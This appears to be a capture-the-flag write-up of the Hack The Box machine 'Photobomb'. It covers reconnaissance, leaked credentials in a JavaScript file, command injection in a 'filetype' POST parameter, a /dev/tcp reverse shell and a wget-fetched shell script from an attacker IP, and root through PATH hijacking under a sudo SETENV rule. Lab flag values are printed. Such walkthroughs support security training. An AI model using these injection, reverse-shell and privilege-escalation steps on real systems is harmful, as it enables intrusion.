 ### IP
`10.10.11.182`

# Reconnaissance

### nmap

`nmap -sC -sV 10.10.11.182`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


We can see that the page includes a file called `photobomb.js` with the following source:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

We can guess that the text in the link is a set of gredentials: `pH0t0:b0Mb!`

These credentials work for logging in to `/printer`


# Exploitation

### BurpSuite

We can intercept the requests made by the site when we download a photo in burpsuite.

Here is an example:

```
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic cEgwdDA6YjBNYiE=
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

photo=calvin-craig-T3M72YMf2oc-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

It looks like we are converting a photo to another filetype and/or dimension when downloading.

Thus, I'm assuming we might be able to inject commands if the params from the requests are being placed straight into the command running on the server.

### Command Injection

I tried injecting commands into all 3 parameters, and it appeared that the `filetype` param was injectable.

This command allows for a reverse shell:
`sh -i >& /dev/tcp/10.10.14.33/4444 0>&1`

Thus, I url-encoded it and placed it into the filetype param following a semi-colon

This was the request I tried:

```
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic cEgwdDA6YjBNYiE=
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

photo=calvin-craig-T3M72YMf2oc-unsplash.jpg&filetype=jpg%3bsh+-i+>%26+/dev/tcp/10.10.14.33/4444+0>%261&dimensions=3000x2000
```

Unfortunately, this didn't work - presumably due to all of the special characters in the command.

Thus, I tried to instead upload a file with the reverse shell and run `wget 10.10.14.33:8000/revshell.sh` and then `bash revshell.sh`. This worked as expected when serving the revshell using `python3 -m http.server`

We can set up a listener with `nc -lvnp 4444` and send the request to get a reverse shell.

Since we are logged in, we can look for the file that is causing the vulnerability.

The following lines of code in `server.rb` shows the issue:

```ruby
filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end
```

The code has the filename parameter last, hence why we had to inject commands there, and is executing it directly using the `convert` utility


We are logged in as the `wizard` user and get the user flag: `96447aa9cea25ad096b785b186308018`


# Privilege Escalation

Running `sudo -l` shows that we can run `/opt/cleanup.sh` as root without a password:

```
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

```

The following is the source of `/opt/cleanup.sh`

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

It looks like almost everything executed uses an absolute path, but `find` is executed using its relative path. Crucially, the `SETENV` tag allows us to set environment variables when running the command.

Thus, we can make our own `find` file to get root.

I put the following file in `/dev/shm/find`

```bash
#!/bin/bash

/bin/bash
```


We can now mark this as executable and run `sudo PATH=/dev/shm:$PATH /opt/cleanup.sh`

This lets us become root and read the root flag: `d9f300357b874ebd195cb318bc08e375`

